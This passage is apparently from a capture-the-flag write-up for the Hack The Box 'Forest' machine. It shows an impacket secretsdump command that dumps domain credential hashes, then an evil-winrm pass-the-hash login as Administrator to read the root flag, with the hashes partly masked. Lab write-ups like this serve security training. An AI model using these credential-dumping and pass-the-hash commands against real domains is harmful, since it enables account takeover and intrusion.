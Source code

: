 ```shell
kali@kali:~/ctf/htb/forest$ python3 /opt/impacket/examples/secretsdump.py -just-dc An00bRektn@htb.local
```

We pass the hash using `evil-winrm` and grab the root flag.

```shell
kali@kali:~/ctf/htb/forest$ evil-winrm -u Administrator -H 32693b11************************ -i htb.local

Evil-WinRM shell v3.2

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
68e7ab70************************
```
